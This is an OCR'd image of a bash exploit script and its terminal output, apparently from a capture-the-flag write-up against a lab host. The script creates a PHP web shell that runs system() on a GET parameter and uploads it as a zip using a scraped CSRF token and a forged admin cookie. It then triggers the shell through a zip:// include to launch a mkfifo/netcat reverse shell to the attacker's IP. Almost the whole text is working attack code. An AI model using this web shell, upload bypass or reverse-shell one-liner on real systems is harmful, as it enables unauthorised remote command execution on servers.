     # create zip payload
    echo "[*] Creating php shell and zip file"
    rm -f ${zip} ${shell_path}
    echo '<?php echo "<pre>" . system($_GET['cmd']) . "</pre>"; ?>' > ${shell_path}
    zip -j /tmp/payload.zip /tmp/shell.php

    # Get PHPSESSID and CSRF token from upload page
    echo "[*] Getting PHPSESSID and CSRF token from /?op=upload"
    tokens=$(curl -sD - http://10.10.10.80/?op=upload -x 127.0.0.1:8080 | grep -e PHPSESSID -e 'name="token"' | sed 's/\n/=/g')

    readarray token_array  <<< $tokens
    phpid=$(echo "${token_array[0]}" | cut -d';' -f1 | cut -d'=' -f2)
    csrf=$(echo "${token_array[1]}" | cut -d'"' -f10)
    echo -e "[+] Tokens received:\n  PIPSESSID: ${phpid}\n  CSRF:      ${csrf}"

    # Upload zip file, get location
    echo "[*] Uploading zip though /?op=upload form"
    location=$(curl -X POST -sD - -F "tip=<${zip}" -F "name=a" -F "token=${csrf}" -F "submit=Send Tip!" -x 127.0.0.1:8080 http://10.10.10.80?op=upload -H "Cookie: admin=1; PHPS
    ESSID=${phpid}" | grep Location | cut -d' ' -f2)
    secret_file=$(echo -n ${location} | cut -d'=' -f3)
    echo -e "[+] File uploaded to ${location}"

    # Activate callback
    url="http://10.10.10.80/"
    op="zip://uploads/${ip}/${secret_file//[$'\r\n']}#${shell//[$'\r\n']}"
    p="rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ${ip} ${port} >/tmp/f"

    echo "[*] Initiating callback to ${ip}:${port}"
    a=$(curl -s -G "${url}" --data-urlencode "op=${op}" --data-urlencode "${param}=${p}" -x 127.0.0.1:8080)





    root@kali# ./request_shell.sh  10.10.14.139 8081
    [*] Creating php shell and zip file
      adding: shell.php (deflated 5%)
    [*] Getting PHPSESSID and CSRF token from /?op=upload
    [+] Tokens received:
      PIPSESSID: tdjrjl4571r7ouutpn9aae1133
      CSRF:      d8f36f072d960fcb7110a5acb45668eed3faf78e52bbd268597fdd7ed464fb49
    [*] Uploading zip though /?op=upload form
    [+] File uploaded to ?op=view&secretname=92ec709161beddd0906c2191ee85b0e9217c682b
    [*] Initiating callback to 10.10.14.139:8081



